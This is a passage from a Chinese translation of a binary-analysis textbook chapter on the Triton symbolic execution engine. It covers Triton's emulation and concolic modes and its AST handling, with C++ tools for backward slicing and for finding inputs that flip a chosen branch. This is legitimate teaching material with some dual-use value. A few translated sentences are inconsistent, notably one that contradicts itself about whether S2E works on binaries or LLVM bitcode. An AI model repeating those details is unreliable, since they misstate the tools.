

# 使用 Triton 进行实际符号执行

在 第十二章 中，你已经熟悉了符号执行的原理。现在，让我们使用 Triton 这个流行的开源符号执行引擎来构建真实的符号执行工具。本章展示了如何使用 Triton 构建反向切片工具、增加代码覆盖率，并自动利用漏洞。

存在一些符号执行引擎，其中只有少数能够在二进制程序上运行。最著名的二进制级符号执行引擎包括 Triton、angr^(［1］(footnote.xhtml#ch13fn_1)) 和 S2E^(［2］(footnote.xhtml#ch13fn_2))。KLEE 是另一个著名的符号执行引擎，它操作的是 LLVM 位码而非二进制代码^(［3］(footnote.xhtml#ch13fn_3))。我将使用 Triton，因为它能够轻松与 Intel Pin 集成，并且由于其 C++ 后端，速度稍快。其他著名的符号执行引擎包括 KLEE 和 S2E，它们操作的是 LLVM 位码而非二进制代码。

### 13.1 Triton 介绍

让我们开始更详细地了解 Triton 的主要特点。Triton 是一个免费的开源二进制分析库，以其符号执行引擎而闻名。它提供 C/C++ 和 Python 的 API，目前支持 x86 和 x64 指令集。你可以在 *[`triton.quarkslab.com`](https://triton.quarkslab.com)* 下载 Triton 并查阅文档。我已在虚拟机中预安装了 Triton 版本 0.6（构建号 1364），并放在 *~/triton* 目录下。

Triton 和 `libdft` 一样，都是实验性工具（目前还没有完全成熟的二进制级符号执行引擎）。这意味着你可能会遇到一些错误，可以在 *[`github.com/JonathanSalwan/Triton/`](https://github.com/JonathanSalwan/Triton/)* 上报告这些问题。Triton 还需要为每种指令类型手动编写专用处理程序，告诉符号执行引擎该指令对符号状态的影响。因此，如果你分析的程序使用了 Triton 不支持的指令，你可能会遇到错误或不正确的结果。

我将使用 Triton 来进行实际符号执行的示例，因为它易于使用，文档相对完善，并且是用 C++ 编写的，这使得它比用像 Python 这样语言编写的引擎具有性能优势。此外，Triton 的符号执行模式基于 Intel Pin，而你已经熟悉这个工具。

Triton 支持两种模式，*符号仿真模式*和*符号执行模式*，分别对应静态（SSE）和动态（DSE）符号执行哲学。在这两种模式下，Triton 允许你具体化部分状态，以减少符号表达式的复杂性。回想一下，SSE 并不真正运行程序，而是模拟它，而符号执行模式则实际运行程序并将符号状态作为元数据进行跟踪。因此，符号仿真模式比符号执行模式要慢，因为它必须模拟每条指令对符号和具体状态的影响，而符号执行模式则“免费”获得具体状态。

共符执行模式依赖于 Intel Pin，并且必须从程序的开始运行分析程序。相比之下，使用符号仿真时，你可以轻松地仅仿真程序的一部分，如单个函数，而不是整个程序。在本章中，你将看到符号仿真模式和共符模式的实际示例。关于这两种方法的优缺点的更完整讨论，请参见第十二章。

Triton 首先是一个离线的符号执行引擎，意味着它一次只能探索一条路径。但它也具备快照机制，允许你无须每次都从头开始，就可以共符地探索多条路径。此外，它还集成了一个粗粒度的污染分析引擎，采用一种颜色。虽然在本章中你不需要这些功能，但你可以通过 Triton 的在线文档和示例了解更多。

Triton 的最新版本还允许你使用不同的二进制插桩平台代替 Pin，以及选择不同的约束求解器。在本章中，我将使用默认设置，即 Pin 和 Z3\. 虚拟机上安装的 Triton 版本要求使用 Pin 版本 2.14（71313），你也会发现它已预装在 *~/triton/pin -2.14-71313-gcc.4.4.7-linux* 中。

### 13.2 使用抽象语法树维护符号状态

在仿真模式和共符模式下，Triton 维护一个全局的符号表达式集合，将寄存器和内存地址映射到这些符号表达式，并维护一个路径约束列表，类似于第 12-1 图中的内容。Triton 将符号表达式和约束表示为*抽象语法树（ASTs）*，每个表达式或约束都有一个 AST。AST 是一种树形数据结构，描述了操作和操作数之间的语法关系。AST 节点包含 Z3 的 SMT 语言中的操作和操作数。

例如，第 13-1 图显示了 `eax` 寄存器的 AST 在以下三条指令序列中的演变：

```
shr eax,cl
xor eax,0x1
and eax,0x1
```

对于每条指令，图中显示了两个并排的 AST：左侧是完整的 AST，右侧是带有*引用*的 AST。我们首先讨论图的左侧，然后我会解释带有引用的 AST。

##### 完整的 AST

图示假设 `eax` 和 `cl` 最初映射到分别对应于 32 位符号值 *α*[1] 和 8 位符号值 *α*[2] 的无界符号表达式。例如，你可以看到，`eax` 的初始状态 ➊ 是一个根节点为 `bv`（*位向量*）节点的 AST，该节点有两个子节点，分别包含值 *α*[1] 和 32\. 这对应于一个无界的 32 位 Z3 位向量，如 `(declare-const alpha1 (_ BitVec 32))`。

`shr eax,cl` 指令是一个逻辑右移操作，它使用 `eax` 和 `cl` 作为操作数，并将结果存储在 `eax` 中。因此，在执行此指令 ➋ 后，`eax` 的完整 AST 以 `bvlshr`（逻辑右移）节点作为根节点，子树表示 `eax` 和 `cl` 的原始 AST。请注意，右侧子树表示 `cl` 的内容，其根节点为 `concat` 操作，该操作将 24 个零位前置到 `cl` 的值中。这是必要的，因为 `cl` 只有 8 位宽，但必须将其扩展为 32 位（与 `eax` 相同的宽度），因为 Z3 使用的 SMT-LIB 2.0 格式要求 `bvlshr` 的两个操作数具有相同的位宽。

在执行 `xor eax,0x1` 指令 ➌ 后，`eax` 的 AST 成为一个 `bvxor` 节点，`eax` 的先前 AST 作为左子树，一个包含值 `1` 的常量位向量作为右子树。类似地，`and eax,0x1` ➍ 会生成一个以 `bvand` 节点为根的 AST，同样，`eax` 的先前 AST 作为左子树，常量位向量作为右子树。



*图 13-1：指令对寄存器抽象语法树的影响*

##### 带有引用的 AST

你可能注意到，完整的 AST 包含了大量的冗余：每当一个 AST 依赖于另一个时，整个前一个 AST 会作为子树出现在新的 AST 中。大型和复杂的程序中操作之间有许多依赖关系，因此之前的方案会导致不必要的内存开销。这就是为什么 Triton 使用引用更加紧凑地表示 AST，如 图 13-1 右侧所示。

在此方案中，每个 AST 都有一个类似 `ref!1`、`ref!2` 等的名称，你可以在另一个 AST 中引用它。这样，你就不必复制整个先前的 AST，而只需在新 AST 中包含一个 *引用节点* 来引用它。例如，图 13-1 右侧展示了如何将 `eax` 的 AST 中的整个左子树（在执行 `and eax,0x1` 指令后）替换为一个引用节点，该节点引用先前的 AST，从而将 15 个节点压缩为 1 个节点。

Triton 提供了一个名为 `unrollAst` 的 API 函数，允许你将包含引用的 AST 展开成完整的 AST，以便你可以手动检查、操作它，或将其传递给 Z3。现在你已经了解了 Triton 的基本工作原理，接下来我们通过一些示例来学习如何在实践中使用 `unrollAst` 和其他 Triton 函数。

### 13.3 使用 Triton 进行反向切片

第一个示例实现了在 Triton 的符号仿真模式下的反向切片。这个示例是 Triton 附带的一个示例的通用版本，原始示例位于 *~/triton/pin-2.14-71313-gcc.4.4.7-linux/ source/tools/Triton/src/examples/python/backward_slicing.py*。原始的 Triton 工具使用 Python API，但在这里我将使用 Triton 的 C/C++ API。你将在 第 13.5 节 中看到一个用 Python 编写的 Triton 工具示例。

回想一下，反向切片是一种二进制分析技术，它告诉你在程序执行的某个时刻，哪些之前的指令对给定寄存器或内存地址的值有所贡献。例如，假设你想要计算`0x404b1e`地址处关于`rcx`寄存器的反向切片，在清单 13-1 中显示的来自*/bin/ls*的代码片段。

*清单 13-1: 来自* /bin/ls 的反汇编片段

```
  $ objdump -M intel -d /bin/ls

  ...
  404b00:  49 89 cb           mov    r11,rcx
  404b03:  48 8b 0f           mov    rcx,QWORD PTR [rdi]
  404b06:  48 8b 06           mov    rax,QWORD PTR [rsi]
  404b09:  41 56              push   r14
  404b0b:  41 55              push   r13
  404b0d:  41 ba 01 00 00 00  mov    r10d,0x1
  404b13:  41 54              push   r12
  404b15:  55                 push   rbp
  404b16:  4c 8d 41 01        lea    r8,[rcx+0x1]
  404b1a:  48 f7 d1           not    rcx
  404b1d:  53                 push   rbx
➊ 404b1e:  49 89 c9          mov    r9,rcx
  ...
```

反向切片包含所有对地址`0x404b1e`处`rcx`寄存器的值有贡献的指令➊。因此，切片应该包括以下清单中显示的指令：

```
404b03: mov rcx,QWORD PTR [rdi]
404b1a: not rcx
404b1e: mov r9,rcx
```

现在让我们看看如何使用 Triton 自动计算像这样的反向切片。你将首先学习如何构建一个反向切片工具，然后用它来切片清单 13-1 中显示的代码片段，生成与刚才看到的手动切片相同的结果。

由于 Triton 将符号表达式表示为相互引用的 AST，因此计算给定表达式的反向切片非常容易。清单 13-2 展示了反向切片工具的实现的第一部分。像往常一样，我省略了标准 C/C++头文件的包含。

*清单 13-2:* backward_slicing.cc

```
➊ #include "../inc/loader.h"
  #include "triton_util.h"
  #include "disasm_util.h"

  #include <triton/api.hpp>
  #include <triton/x86Specifications.hpp>

  int
  main(int argc, char *argv[])
  {
    Binary bin;
    triton::API api;
    triton::arch::registers_e ip;
    std::map<triton::arch::registers_e, uint64_t> regs;
    std::map<uint64_t, uint8_t> mem;

    if(argc < 6) {
      printf("Usage: %s <binary> <sym-config> <entry> <slice-addr> <reg>\n", argv[0]);
      return 1;
    }

    std::string fname(argv[1]);
    if(load_binary(fname, &bin, Binary::BIN_TYPE_AUTO) < 0) return 1;

➋   if(set_triton_arch(bin, api, ip) < 0) return 1;
     api.enableMode(triton::modes::ALIGNED_MEMORY, true);

➌   if(parse_sym_config(argv[2], &regs, &mem) < 0) return 1;
     for(auto &kv: regs) {
       triton::arch::Register r = api.getRegister(kv.first);
       api.setConcreteRegisterValue(r, kv.second);
     }
     for(auto &kv: mem) {
       api.setConcreteMemoryValue(kv.first, kv.second);
     }

     uint64_t pc         = strtoul(argv[3], NULL, 0);
     uint64_t slice_addr = strtoul(argv[4], NULL, 0);
     Section *sec = bin.get_text_section();

➍   while(sec->contains(pc)) {
       char mnemonic[32], operands[200];
➎     int len = disasm_one(sec, pc, mnemonic, operands);
       if(len <= 0) return 1;

➏     triton::arch::Instruction insn;
       insn.setOpcode(sec->bytes+(pc-sec->vma), len);
       insn.setAddress(pc);

➐     api.processing(insn);

➑     for(auto &se: insn.symbolicExpressions) {
         std::string comment = mnemonic; comment += " "; comment += operands;
         se->setComment(comment);
       }

➒     if(pc == slice_addr) {
         print_slice(api, sec, slice_addr, get_triton_regnum(argv[5]), argv[5]);
         break;
       }

➓     pc = (uint64_t)api.getConcreteRegisterValue(api.getRegister(ip));
     }

     unload_binary(&bin);

     return 0;
   }
```

要使用该工具，你需要通过命令行参数提供分析的二进制文件名、符号配置文件、开始分析的入口点地址、计算切片的地址以及与之计算切片的寄存器。

稍后我会解释符号配置文件的目的。请注意，这里的入口点地址仅仅是切片工具将模拟的第一条指令的地址；它不必与二进制文件的入口点相同。例如，为了切片清单 13-1 中的示例代码，你可以使用`0x404b00`作为入口点地址，这样分析就会模拟清单中显示的所有指令，直到切片地址为止。

`backward_slicing`的输出是切片中的汇编指令列表。现在让我们更详细地看看`backward_slicing`是如何生成程序切片的，从对必要的包含文件和`main`函数的深入讨论开始。

#### *13.3.1 Triton 头文件和配置 Triton*

在示例 13-2 中，你首先会注意到它包含了 *../inc/loader.h* ➊，因为 `backward_slicing` 使用了在第四章中开发的二进制加载器。它还包含了 *triton_util.h* 和 *disasm_util.h*，这两个文件提供了一些我将很快描述的实用函数。最后，有两个 Triton 特定的头文件，都是 *.hpp* 扩展名：*triton/api.hpp* 提供了主要的 Triton C**++** API，而 *triton/x86Specifications.hpp* 提供了 x86 特定的定义，比如寄存器定义。除了包含这些头文件，你还必须使用 `-ltriton` 链接，以便使用 Triton 的符号化仿真模式。

`main` 函数首先使用二进制加载器中的 `load_binary` 函数加载你正在分析的二进制文件。然后，它使用一个名为 `set_triton_arch` ➋ 的函数将 Triton 配置为该二进制文件的架构，该函数定义在 *backward_slicing.cc* 中，我将在第 13.3.4 节中详细讨论。它还调用 Triton 的 `api.enableMode` 函数启用 Triton 的 `ALIGNED_MEMORY` 模式，其中 `api` 是类型为 `triton::API` 的对象，`triton::API` 是 Triton 的主类，提供了 C++ API。

请记住，符号化的内存访问可能会大大增加符号化状态的大小和复杂性，因为 symbex 引擎必须建模所有可能的内存访问结果。Triton 的 `ALIGNED_MEMORY` 模式是一种优化，它通过假设内存加载和存储访问对齐的内存地址来减少符号化内存爆炸。如果你知道内存访问是对齐的，或者精确的内存地址对分析没有影响，你可以安全地启用此优化。

#### *13.3.2 符号化配置文件*

在你大多数的 symbex 工具中，你可能需要将一些寄存器和内存地址设置为符号化，或者将它们设置为特定的具体值。你将哪些状态设置为符号化，哪些使用具体值，取决于你正在分析的应用程序和你想要探索的路径。因此，如果你硬编码了关于符号化和具体化状态的决策，你的 symbex 工具就会变得是特定于应用的。

为了防止这种情况发生，我们来创建一个简单的 *符号化配置文件* 格式，在这个文件中你可以配置这些决策。这里有一个名为 `parse_sym_config` 的实用函数，它定义在 *triton_util.h* 中，你可以用它来解析符号化配置文件并将它们加载到你的 symbex 工具中。以下示例展示了一个符号化配置文件的例子：

```
%rax=0
%rax=$
@0x1000=5
```

在符号配置文件格式中，你通过 `%`*name* 来表示寄存器，通过 `@`*address* 来表示内存地址。你可以为每个寄存器或内存字节分配具体的整数值，或者通过分配值 `$` 将其符号化。例如，以下配置文件将具体值 `0` 分配给 `rax`，然后将 `rax` 符号化，并将值 `5` 分配给内存地址 `0x1000` 处的字节。请注意，`rax` 是符号化的，但同时具有具体值，以推动仿真到正确的路径。

现在让我们回到示例 13-2。加载二进制文件以进行分析并配置 Triton 后，`backward_slicing` 调用 `parse_sym_config` 来解析命令行中指定的符号配置文件 ➌。此函数以配置文件的文件名作为输入，然后是两个参数，这两个参数都是指向 `std::map` 对象的引用，其中 `parse_sym_config` 加载了配置。第一个 `std::map` 将 Triton 寄存器名称（属于 `triton::arch::registers_e` 枚举类型）映射到包含寄存器内容的具体 `uint64_t` 值，而第二个 `std::map` 将内存地址映射到具体的字节值。

实际上，`parse_sym_config` 还接受两个可选参数，用于加载符号寄存器和内存地址的列表。我这里没有使用这些参数，因为为了计算切片，你只关心 Triton 构建的 AST，默认情况下，Triton 会为你没有显式指定符号的寄存器和内存位置构建 AST。^(4) 你将在 13.4 节看到一个需要显式符号化状态某些部分的例子。

紧接着调用 `parse_sym_config` 后，`backward_slicing` 的 `main` 函数包含两个 `for` 循环。第一个循环遍历刚加载的具体寄存器值的映射，并指示 Triton 将这些具体值分配给其内部状态。为此，你调用 `api.setConcreteRegisterValue`，该函数接受一个 Triton 寄存器和一个具体的整数值作为输入。Triton 寄存器的类型是 `triton::arch::Register`，你可以通过 `api.getRegister` 函数从 Triton 寄存器名称（属于 `triton::arch::registers_e` 枚举类型）中获得它们。每个寄存器名称的形式为 `ID_REG_`*name*，其中 *name* 是像 `AL`、`EBX`、`RSP` 等的大写寄存器名称。

同样，第二个 `for` 循环遍历具体内存值的映射，并使用 `api.setConcreteMemoryValue` 将这些值告诉 Triton，该函数接受一个内存地址和一个具体的字节值作为输入。^(5)

#### *13.3.3 模拟指令*

加载符号配置文件是`backward_slicing`设置代码的最后部分。现在，开始执行主仿真循环，该循环从用户指定的入口点地址开始仿真二进制中的指令，并持续直到到达要计算切片的指令。这种仿真循环是你用 Triton 编写的几乎所有符号仿真工具的典型特征。

仿真循环只是一个`while`循环，当切片完成或遇到超出二进制文件`.text`段的指令地址时停止 ➍。为了跟踪当前指令地址，存在一个名为`pc`的仿真程序计数器。

循环的每次迭代开始时，使用`disasm_one`➎反汇编当前指令，这也是我在*disasm_util.h*中提供的另一个工具函数。它使用 Capstone 获取包含指令助记符和操作数的字符串，这些在稍后会用到。

接下来，`backward_slicing`为当前指令➏构建一个类型为`triton::arch::Instruction`的 Triton 指令对象，并使用`Instruction`的`setOpcode`函数填充从二进制`.text`段中提取的指令操作码字节。它还使用`setAddress`函数将`Instruction`的地址设置为当前`pc`。

在为当前指令创建 Triton 的`Instruction`对象后，仿真循环通过调用`api.processing`函数➐来*处理*该`Instruction`。尽管`api.processing`函数名字通用，但它在 Triton 符号仿真工具中是核心部分，因为它执行实际的指令仿真，并根据仿真结果推进 Triton 的符号和具体状态。

在当前指令处理后，Triton 将构建表示受指令影响的寄存器和内存状态的符号表达式的内部抽象语法树。稍后，你将看到如何使用这些符号表达式计算反向切片。为了生成包含 x86 指令的切片，而非 SMT-LIB 2.0 格式的符号表达式，你需要跟踪每个符号表达式与哪个指令相关联。`backward_slicing`工具通过遍历所有与刚处理的指令相关的符号表达式列表，并用注释装饰每个表达式，注释中包含从`disasm_one`函数➑获取的指令助记符和操作数字符串，从而实现这一点。

要访问`Instruction`的符号表达式列表，可以使用它的`symbolicExpressions`成员，它是类型为`std::vector<triton::engines::symbolic::SymbolicExpression*>`的对象。`SymbolicExpression`类提供一个名为`setComment`的函数，允许你为符号表达式指定一个注释字符串。

当仿真达到切片地址时，`backward_slicing` 调用一个名为 `print_slice` 的函数，该函数计算并打印切片，然后跳出仿真循环 ➒。注意，`get_triton_regnum` 是另一个来自 *triton_util.h* 的工具函数，根据人类可读的寄存器名称返回对应的 Triton 寄存器标识符。在这里，它返回要切片的寄存器的标识符，并将其传递给 `print_slice`。

当你调用 Triton 的 `processing` 函数时，Triton 内部会更新具体的指令指针值，以指向下一条指令。在每次仿真循环迭代结束时，你可以通过 `api.getConcreteRegisterValue` 函数获取这个新的指令指针值，并将其赋值给你自己的程序计数器（在这个例子中叫做 `pc`），以驱动仿真循环 ➓。请注意，对于 32 位的 x86 程序，你需要获取 `eip` 的内容，而对于 x64 程序，指令指针是 `rip`。现在，让我们看看之前提到的 `set_triton_arch` 函数如何配置 `ip` 变量，以便为仿真循环使用正确的指令指针寄存器标识符。

#### *13.3.4 设置 Triton 架构*

`backward_slicing` 工具的 `main` 函数调用 `set_triton_arch` 来配置 Triton 的二进制指令集，并获取该架构中使用的指令指针寄存器名称。列表 13-3 显示了 `set_triton_arch` 的实现方式。

*列表 13-3:* backward_slicing.cc *(续)*

```
  static int
  set_triton_arch(Binary &bin, triton::API &api, triton::arch::registers_e &ip)
  {
➊   if(bin.arch != Binary::BinaryArch::ARCH_X86) {
       fprintf(stderr, "Unsupported architecture\n");
       return -1;
     }

➋   if(bin.bits == 32) {
➌     api.setArchitecture(triton::arch::ARCH_X86);
➍     ip = triton::arch::ID_REG_EIP;
     } else if(bin.bits == 64) {
➎     api.setArchitecture(triton::arch::ARCH_X86_64);
➏     ip = triton::arch::ID_REG_RIP;

 } else {
      fprintf(stderr, "Unsupported bit width for x86: %u bits\n", bin.bits);
      return -1;
    }

    return 0;
 }
```

该函数接受三个参数：一个返回自二进制加载器的 `Binary` 对象的引用，一个 Triton API 的引用，以及一个 `triton::arch::registers_e` 类型的引用，用于存储指令指针寄存器的名称。如果成功，`set_triton_arch` 返回 0；如果出现错误，则返回 −1。

首先，`set_triton_arch` 确保它正在处理一个 x86 二进制文件（无论是 32 位还是 64 位） ➊。如果不是这样，它会返回错误，因为 Triton 当前无法处理除 x86 之外的其他架构。

如果没有错误，`set_triton_arch` 会检查二进制文件的位宽 ➋。如果二进制文件使用的是 32 位 x86，它会将 Triton 配置为 32 位 x86 模式（`triton::arch::ARCH_X86`） ➌，并将 `ID_REG_EIP` 设置为指令指针寄存器的名称 ➍。类似地，如果是 x64 二进制文件，它会将 Triton 的架构设置为 `triton::arch::ARCH_X86_64` ➎，并将 `ID_REG_RIP` 设置为指令指针 ➏。要配置 Triton 的架构，你可以使用 `api.setArchitecture` 函数，它只需要传入架构类型作为参数。

#### *13.3.5 计算反向切片*

为了计算并打印实际的切片，当仿真到达切片地址时，`backward_slicing` 调用 `print_slice` 函数。你可以在 列表 13-4 中查看 `print_slice` 的实现。

*列表 13-4:* backward_slicing.cc *(续)*

```
   static void
   print_slice(triton::API &api, Section *sec, uint64_t slice_addr,
               triton::arch::registers_e reg, const char *regname)
   {
     triton::engines::symbolic::SymbolicExpression *regExpr;
     std::map<triton::usize, triton::engines::symbolic::SymbolicExpression*> slice;
     char mnemonic[32], operands[200];

➊    regExpr = api.getSymbolicRegisters()[reg];
➋    slice = api.sliceExpressions(regExpr);

➌    for(auto &kv: slice) {
        printf("%s\n", kv.second->getComment().c_str());
     }
➍   disasm_one(sec, slice_addr, mnemonic, operands);
     std::string target = mnemonic; target += " "; target += operands;

     printf("(slice for %s @ 0x%jx: %s)\n", regname, slice_addr, target.c_str());
  }
```

请记住，切片是相对于特定寄存器计算的，如 `reg` 参数所指定的。为了计算切片，你需要在模拟切片地址处的指令后，获得与该寄存器相关联的符号表达式。为此，`print_slice` 调用 `api.getSymbolicRegisters`，该方法返回一个将所有寄存器与其关联的符号表达式映射的映射表，然后通过该映射获取与 `reg` 相关联的表达式 ➊。接着，它使用 `api.sliceExpressions` 获取所有贡献于 `reg` 表达式的符号表达式的切片 ➋，该方法返回一个以整数表达式标识符为键，`triton::engines::symbolic::SymbolicExpression*` 对象为值的 `std::map`。

现在你拥有了一片符号表达式，但你真正需要的是一片 x86 汇编指令。这正是符号表达式注释的目的，它将每个表达式与产生该表达式的指令的汇编助记符和操作数字符串关联起来。因此，`print_slice` 只需循环遍历符号表达式片段，使用 `getComment` 获取它们的注释，并将注释打印到屏幕上 ➌。为了完整性，`print_slice` 还会反汇编你正在计算切片的指令，并将其也打印到屏幕上 ➍。

你可以通过在虚拟机上运行 `backward_slice` 程序来尝试这个功能，如 示例 13-5 中所示。

*示例 13-5：计算相对于* rcx *的回溯切片，起始地址为* 0x404b1e

```
➊ $ ./backward_slicing /bin/ls empty.map 0x404b00 0x404b1e rcx
➋ mov rcx, qword ptr [rdi]
  not rcx
  (slice for rcx @ 0x404b1e: mov r9, rcx)
```

在这里，我使用了 `backward_slicing` 来计算你在 示例 13-1 中看到的来自 */bin/ls* 的代码片段的切片 ➊。我使用了一个空的符号配置文件（*empty.map*），并指定了 `0x404b00`、`0x404b1e` 和 `rcx` 作为入口点地址、切片地址和需要切片的寄存器。正如你所见，这产生了与之前手动计算的切片相同的输出 ➋。

在这个示例中可以使用空的符号配置文件，是因为分析并不依赖于任何特定的寄存器或内存位置是符号的，并且你不需要任何特定的具体值来驱动执行，因为你正在分析的代码片段没有包含任何分支。现在，让我们来看一个需要非空符号配置的示例，以便在同一个程序中探索多个路径。

### 13.4 使用 Triton 增加代码覆盖率

由于回溯切片示例仅需要 Triton 跟踪寄存器和内存位置的符号表达式的能力，因此它并没有利用符号执行的核心优势：通过约束求解推理程序属性。在这个示例中，你将熟悉 Triton 在经典的符号执行（symbex）用例——*代码覆盖率*中的约束求解能力。

示例 13-6 展示了`code_coverage`工具源代码的第一部分。你会注意到，很多源代码和之前的示例是一样的或者相似的。实际上，我已经省略了`set_triton_arch`函数，因为它和`backward_slicing`工具中的完全相同。

*示例 13-6:* code_coverage.cc

```
   #include "../inc/loader.h"
   #include "triton_util.h"
   #include "disasm_util.h"

   #include <triton/api.hpp>
   #include <triton/x86Specifications.hpp>

   int
   main(int argc, char *argv[])
   {
     Binary bin;
     triton::API api;
     triton::arch::registers_e ip;
     std::map<triton::arch::registers_e, uint64_t> regs;
     std::map<uint64_t, uint8_t> mem;
     std::vector<triton::arch::registers_e> symregs;
     std::vector<uint64_t> symmem;

     if(argc < 5) {
       printf("Usage: %s <binary> <sym-config> <entry> <branch-addr>\n", argv[0]);
       return 1;
   }

   std::string fname(argv[1]);
   if(load_binary(fname, &bin, Binary::BIN_TYPE_AUTO) < 0) return 1;

   if(set_triton_arch(bin, api, ip) < 0) return 1;
   api.enableMode(triton::modes::ALIGNED_MEMORY, true);

➊  if(parse_sym_config(argv[2], &regs, &mem, &symregs, &symmem) < 0) return 1;
    for(auto &kv: regs) {
      triton::arch::Register r = api.getRegister(kv.first);
      api.setConcreteRegisterValue(r, kv.second);
   }
➋  for(auto regid: symregs) {
     triton::arch::Register r = api.getRegister(regid);
     api.convertRegisterToSymbolicVariable(r)->setComment(r.getName());
   }
   for(auto &kv: mem) {
     api.setConcreteMemoryValue(kv.first, kv.second);
   }
➌  for(auto memaddr: symmem) {
     api.convertMemoryToSymbolicVariable(
         triton::arch::MemoryAccess(memaddr, 1))->setComment(std::to_string(memaddr));
   }

    uint64_t pc          = strtoul(argv[3], NULL, 0);
    uint64_t branch_addr = strtoul(argv[4], NULL, 0);
    Section *sec = bin.get_text_section();

➍  while(sec->contains(pc)) {
      char mnemonic[32], operands[200];
      int len = disasm_one(sec, pc, mnemonic, operands);
      if(len <= 0) return 1;

      triton::arch::Instruction insn;
      insn.setOpcode(sec->bytes+(pc-sec->vma), len);
      insn.setAddress(pc);

      api.processing(insn);

➎    if(pc == branch_addr) {
        find_new_input(api, sec, branch_addr);
        break;
      }

      pc = (uint64_t)api.getConcreteRegisterValue(api.getRegister(ip));
    }

    unload_binary(&bin);

    return 0;
  }
```

要使用`code_coverage`工具，你需要提供命令行参数，指定要分析的二进制文件、符号化配置文件、分析的入口地址，以及一个直接跳转指令的地址。该工具假设你的符号化配置文件包含具体的输入，能够使得跳转选择两个可能路径中的一个（不管选择哪条路径）。然后，它使用约束求解器计算一个模型，该模型包含一组新的具体输入，能让跳转选择另一条路径。为了使求解器成功工作，你必须小心符号化所有与跳转相关的寄存器和内存位置。

如你在示例中看到的，`code_coverage`包含与之前示例相同的工具和 Triton 头文件。此外，`code_coverage`的`main`函数几乎与`backward_slicing`的`main`函数完全相同。和前一个示例一样，它首先加载二进制文件并配置 Triton 架构，然后启用`ALIGNED_MEMORY`优化。

#### *13.4.1 创建符号变量*

与之前的示例的不同之处在于，解析符号化配置文件的代码传递了两个可选参数（`symregs`和`symmem`）➊给`parse_sym_config`。这些是输出参数，`parse_sym_config`根据配置文件将需要符号化的寄存器和内存位置的列表写入到这些参数中。在配置文件中，你需要符号化所有包含用户输入的寄存器和内存位置，这样约束求解器返回的模型就会为每个用户输入提供一个具体的值。

在从配置文件分配了具体值之后，`main`循环遍历符号化的寄存器列表，并使用 Triton 的`api.convertRegisterToSymbolicVariable`函数➋对它们进行符号化。符号化寄存器的同一行代码会立即在刚创建的符号变量上设置注释，指定寄存器的可读名称。这样，当你后来从约束求解器获取模型时，你就能知道如何将模型中的符号变量赋值映射回真实的寄存器和内存。

用于符号化内存位置的循环类似。对于每个需要符号化的内存位置，它构建一个 `triton::arch::MemoryAccess` 对象，指定内存位置的地址和大小（以字节为单位）。在此案例中，我已将大小硬编码为 1 字节，因为配置文件格式只允许按字节粒度引用内存位置。为了符号化 `MemoryAccess` 对象中指定的地址，你使用 Triton 函数 `api.convertMemoryToSymbolicVariable` ➌。之后，循环会设置一个注释，将新的符号变量映射到包含内存地址的人类可读字符串。

#### *13.4.2 寻找新路径的模型*

仿真循环 ➍ 与 `backward_slicing` 中的相同，只是这次它模拟直到 `pc` 等于你想找到新输入集的分支地址 ➎。为了找到这些新输入，`code_coverage` 调用一个名为 `find_new_input` 的独立函数，该函数在 列表 13-7 中显示。

*列表 13-7:* code_coverage.cc *(续)*

```
   static void
   find_new_input(triton::API &api, Section *sec, uint64_t branch_addr)
   {
➊   triton::ast::AstContext &ast = api.getAstContext();
➋   triton::ast::AbstractNode *constraint_list = ast.equal(ast.bvtrue(), ast.bvtrue());

     printf("evaluating branch 0x%jx:\n", branch_addr);

➌   const std::vector<triton::engines::symbolic::PathConstraint> &path_constraints
         = api.getPathConstraints();
➍   for(auto &pc: path_constraints) {
➎     if(!pc.isMultipleBranches()) continue;
➏     for(auto &branch_constraint: pc.getBranchConstraints()) {
        bool flag         = std::get<0>(branch_constraint);
        uint64_t src_addr = std::get<1>(branch_constraint);
        uint64_t dst_addr = std::get<2>(branch_constraint);
        triton::ast::AbstractNode *constraint = std::get<3>(branch_constraint);

➐      if(src_addr != branch_addr) {
          /* this is not our target branch, so keep the existing "true" constraint */
➑        if(flag) {
            constraint_list = ast.land(constraint_list, constraint);
         }
➒     } else {
        /* this is our target branch, compute new input */
        printf("    0x%jx -> 0x%jx (%staken)\n",
               src_addr, dst_addr, flag ? "" : "not ");

➓      if(!flag) {
          printf("    computing new input for 0x%jx -> 0x%jx\n",
                src_addr, dst_addr);
          constraint_list = ast.land(constraint_list, constraint);
          for(auto &kv: api.getModel(constraint_list)) {
            printf("      SymVar %u (%s) = 0x%jx\n",
                  kv.first,
                  api.getSymbolicVariableFromId(kv.first)->getComment().c_str(),
                  (uint64_t)kv.second.getValue());
          }
        }
      }
    }
  }
}
```

